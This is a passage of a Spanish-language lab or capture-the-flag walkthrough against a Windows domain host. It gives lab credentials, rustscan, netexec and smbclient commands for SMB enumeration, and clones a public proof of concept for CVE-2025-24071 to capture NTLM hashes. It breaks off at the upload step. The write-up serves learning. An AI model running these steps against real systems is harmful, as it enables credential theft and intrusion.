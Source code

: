  j.fleischman / J0elTHEM4n1990!
## Reconocimiento
Empezamos realizando un reconocimiento con [[RUSTSCAN]]
`rustscan -a $IP --ulimit 1000 -r 1-65535 -- -A -sCV -o portScan`

Encontramos los siguientes puertos mas relevantes:
```js
53/DNS
88/Kerberos
389/LDAP
445/SMB
5985/WinRM
```

Miramos con las credenciales que nos han aportado que hay en el SMB
`netexec smb $IP -u "j.fleischman" -p 'J0elTHEM4n1990!' --shares`

Vemos que tenemos acceso con lectura y escritura al grupo de IT, accedemos a esta carpeta con
`smbclient '//10.10.11.69/IT' -U 'j.fleischman%J0elTHEM4n1990!'`

En esta carpeta nos encontramos un PDF que nos lo traemos a nuestra maquina para ver que contiene, el PDF contiene CVE de diversas maquinas, encontramos que hay un CVE-2025-24071 que permite al atacante ver los hashes NTLM

Usaremos el siguiente POC de GitHub el cual nos facilitara la explotación de este CVE.
`git clone https://github.com/0x6rss/CVE-2025-24071_PoC.git`
`
Nos genera un `.zip` que lo tendremos que subir al SMB




